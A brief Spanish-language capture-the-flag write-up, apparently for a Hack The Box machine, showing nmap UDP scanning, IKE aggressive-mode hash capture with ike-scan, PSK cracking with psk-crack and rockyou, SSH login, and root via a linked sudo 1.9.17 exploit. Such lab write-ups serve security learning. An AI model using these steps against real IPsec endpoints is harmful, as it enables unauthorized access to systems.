


# Expressway

- Por tcp solo encontramos ssh en el puerto 22

- Por udp encontramos un isakmp
```bash
nmap -sU --top-ports 100 -n 10.129.55.88
```



```bash
sudo ike-scan -AMv expressway.htb
```



- Extraemos el hash
```bash
sudo ike-scan -A -M --pskcrack=hash.txt -v expressway.htb
```

ike-scan → Escáner de IKE/IPsec
-A → Prueba múltiples propuestas de cifrado
-M → Usa Aggressive Mode (más rápido, más info)
-v → Verbose

- Lo crackeamos
```bash
sudo psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt
```

**freakingrockstarontheroad**

Entramos por ssh con el usuario ike
ike

## Escalada

- Corriendo linPEAS encontramos que la versión de sudo es 1.9.17 que es vulnerable
Encontramos -> [https://www.exploit-db.com/exploits/52352](https://www.exploit-db.com/exploits/52352)

- Nos lo pasamos a la máquina víctima y lo runeamos
root
